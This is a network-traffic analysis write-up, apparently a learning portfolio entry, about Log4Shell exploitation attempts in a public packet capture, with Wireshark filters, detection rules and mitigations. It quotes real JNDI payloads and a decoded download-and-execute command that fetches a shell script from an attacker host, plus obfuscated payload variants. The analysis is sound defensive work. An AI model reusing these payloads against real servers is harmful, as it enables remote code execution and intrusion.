







# Log4Shell Attempts in Network Traffic – Wireshark Analysis

**Platform:** Malware-Traffic-Analysis.net · **Category:** Network Analysis · **Completed:** 2026-11

## Summary

- **Scenario:** A public packet capture (`log4j-attempts.pcapng`) of a web server receiving Log4Shell (CVE-2021-44228) exploitation attempts and scans.
- **Result:** Found and decoded a command-injection payload that tries to download and run a shell script, and found several other payload variants and a vulnerability scanner. The server never connected out to the attacker, so I found no evidence that the exploit succeeded.
- **Key takeaway:** Attackers hide the same payload in many different places, so detection has to look at the whole request, not one header. And "no callback seen" only counts as evidence if the capture actually contains the server's own traffic.

**Source:** The capture comes from malware-traffic-analysis.net and I followed Chris Greer's video on analyzing it ([link](https://www.lovemytool.com/2021/12/log4j-analysis-with-wireshark-chris.html)). The screenshots and write-up below are my own. The PCAP is not included in this repository, so download it from the source.

---

## Methodology

### 1. Finding the exploit attempts

Log4Shell payloads contain the string `jndi`, so I filtered for packets containing it:

```
frame contains "jndi"
```

Almost every match was an HTTP `GET`. One was a `POST` (frame 444) from `45.137.21.9`, so I opened that first.



*Figure 1: Frames containing `jndi`. Frame 444 is the only POST.*

### 2. Decoding the POST payload

In frame 444 the `User-Agent` header held a JNDI lookup instead of a browser string:

```
${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/<base64 string>}
```



*Figure 2: The payload sits in the User-Agent header of the POST request.*

I decoded the Base64 string in CyberChef (From Base64):

```
d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Decoded output:

```
wget hxxp://62[.]210[.]130[.]250/lh.sh;chmod +x lh.sh;./lh.sh
```

The command downloads a script, makes it executable and runs it. If a vulnerable Java application processed this string, the attacker's LDAP server would send it this command to run.



*Figure 3: Decoding the Base64 command in CyberChef.*

### 3. Other payload variants

The other matches showed that attackers put the payload in many places, probably because they can't know which field the target logs:

| Location | Example |
|----------|---------|
| URL path (URL-encoded) | `/$%7Bjndi:ldap://45[.]130[.]229[.]168:1389/Exploit%7D` |
| Query parameter | `/?x=${jndi:ldap://45[.]155[.]205[.]233:12344/...}` |
| `Authorization: Bearer` header | `${jndi:ldap://45[.]83[.]193[.]150:1389/Exploit}` (request also sent with `User-Agent: curl/7.58.0`) |
| URL path using DNS | `/$%7Bjndi:dns://45[.]83[.]64[.]1/securityscan-http80%7D` |



*Figure 4: A payload placed in an `Authorization: Bearer` header.*

Some requests looked like scanners and not exploitation. One request's URL contained a hostname with `kryptoslogic-cve-2021-44228`, and another used the User-Agent `Kryptos Logic Telltale`, which fits an internet-wide scan for the vulnerability. These probes only check whether a target calls back, so I separated them from the `wget` payload, which tries to run code.

### 4. Did the server react?

If the server had been exploited, it would have had to connect out to the attacker's server to fetch the payload. A TCP connection starts with a SYN packet, so I looked for SYN packets sent by the server.

Wireshark showed the server as `23.101.173.219` in the packet list, but its real address (in the IP header and the `Host` header) is `198.71.247.91`. My first attempt used the wrong address, so I redid the checks with the correct one.

First I confirmed that the capture contains the server's own replies, so that an empty result would mean something:

```
http.response
```



*Figure 5: The capture includes the server's HTTP responses.*

Then I checked what the server did on its own:

| Check | Filter | Result |
|-------|--------|--------|
| Connections started by the server | `ip.src==198.71.247.91 && tcp.flags.syn==1 && tcp.flags.ack==0` | No packets |
| Traffic with the payload host | `ip.addr==62.210.130.250` | No packets |
| LDAP traffic | `tcp.port==1389 \|\| ldap` | Only two inbound connection attempts from other hosts, with no data, which look like port scans |



*Figure 6: The server never started a connection.*

The server did not contact the attacker's LDAP server or the host that serves the script, so there is no sign that the `wget` command was fetched or run.

### 5. One packet worth noting

Frame 41358 is an ICMP error ("port unreachable") from `162.0.228.252`. These errors include a copy of the packet that caused them, and expanding it shows that the server had sent a **DNS lookup** to that outside address for a name under `dnsdrakkarv4.com`. Normally a server sends DNS lookups to its own configured DNS server, not directly to an outside address, so this could mean that something on the server processed an attacker-supplied name. I did not trace it further. The lookup itself is not in the capture as a separate packet, only the error message that came back.



*Figure 7: The ICMP error contains a copy of the DNS lookup the server sent.*

---

## Findings and Impact

**Vulnerability:** CVE-2021-44228 (Log4Shell), remote code execution through JNDI lookups in logged input.
**References:** OWASP Top 10 A06:2021 (Vulnerable and Outdated Components), ATT&CK T1190 (Exploit Public-Facing Application), T1595.002 (Active Scanning: Vulnerability Scanning), T1105 (Ingress Tool Transfer, for the `wget` download attempt)

**What the capture shows:**
- An exploitation attempt with a command to download and run a script (frame 444).
- Many other attempts and scans, using different HTTP fields and both `ldap://` and `dns://` payloads, including scanner traffic from Kryptos Logic.
- No connection from the server to the attacker's servers, and no traffic with the host that serves the script.
- One DNS lookup from the server to an outside address, which may be a sign that a payload was processed.

**Impact:** If a vulnerable server had processed the POST payload, the attacker could have run any command on it, and the downloaded script could install malware or give the attacker further access.

**Conclusion:** The capture shows exploitation attempts and scanning, and I found no evidence that the `wget` payload ran. The single outside DNS lookup is the one possible sign that a payload was processed.

---

## Detection and Mitigation

**Detection:**
- Alert on `${jndi:` (and the URL-encoded form `$%7Bjndi`) anywhere in an HTTP request: URL, query string, headers and body. Attackers used different fields, so checking only the User-Agent would have missed most of these.
- Expect disguised versions such as `${${lower:j}ndi:...}`. A plain text search, including my own `frame contains "jndi"` filter, will miss them.
- Alert when a server sends DNS lookups directly to an outside address instead of its own DNS server, as in Figure 7.
- Alert on connections from servers out to LDAP, LDAPS or RMI ports (389, 636, 1389, 1099) when they have no reason to make them.

**Mitigation:**
- Upgrade Log4j to a patched version (check the Apache advisory for the current fixed release).
- If an upgrade isn't possible, follow the vendor's mitigation guidance, such as removing the `JndiLookup` class from the library.
- Limit which outside addresses application servers can connect to. This would have blocked the callback even if the payload had run.
- Use WAF rules as a stopgap, not a fix, since payloads can be disguised.

---

## Next Steps

- Write a script that scans a PCAP for JNDI strings, including URL-encoded forms, and decodes any Base64 command it finds, then test it on this capture.
- Learn how DNS and ICMP packets work in more depth, so that I can trace the lookup in Figure 7 back to the request that caused it.

---

**Tools:** Wireshark, CyberChef
**References:** malware-traffic-analysis.net (capture); Chris Greer, "Log4j Analysis with Wireshark" (video); CVE-2021-44228